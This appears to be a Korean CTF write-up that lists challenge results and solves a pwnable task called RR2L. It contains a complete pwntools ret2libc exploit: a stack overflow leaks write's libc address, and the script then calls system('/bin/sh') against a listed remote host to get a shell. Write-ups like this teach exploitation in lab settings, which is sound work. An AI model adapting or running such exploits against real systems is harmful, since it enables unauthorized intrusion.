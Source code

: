 | No.25  | Event      | MIC2 | 1 |O|
| No.26  | Pwnable    | shellwedance? | 300 |O|
| No.27  | Web        | bypass_filter | 200 |O|

## 0x01 Event MIC1 [1]
- 생존확인. 췍췍

## 0x04 Pwnable RR2L [50]
- 문제 제공 파일로 바이너리랑 libc를 제공해준다.
- 취약점은 딱 봐도 bof취약점이 보인다.
- write_plt + write_got를 이용하여 write libc 주소구하고 제공해주는 libc에서 system libc와 "/bin/sh\x00" 찾아서 슥삭하면 됩니다.

```python
# libc offset
from pwn import *

libc = ELF("libc-2.23.so")

offset = libc.symbols['write'] - libc.symbols['system']
print hex(libc.symbols['write'])
print hex(libc.symbols['system'])
print hex(offset)
print libc.symbols['write'] - next(libc.search("/bin/sh\x00"))
```

```python
# Exploit
from pwn import *

s = remote('223.194.105.182', 37100)
print s.recvuntil('Press any thing\n')

main = 0x0804852B
write_plt = 0x08048410
write_got = 0x0804A024
system_offset = 0x9AC50
binsh_offset = 548411

payload = "a"*104 # stack dummy
payload += p32(write_plt)
payload += p32(main)
payload += p32(1) # fd
payload += p32(write_got) # buf
payload += p32(4) # len

s.sendline(payload)
s.recv(1024)
leak_addr = u32(s.recv(4))
system_addr = leak_addr - system_offset
binsh = leak_addr + binsh_offset

print s.recvuntil('Press any thing\n')
payload2 = "a"*104 # stack dummy
payload2 += p32(system_addr)
payload2 += p32(0x61616161)
payload2 += p32(binsh)
s.sendline(payload2)

s.recv(1024)
s.interactive()
```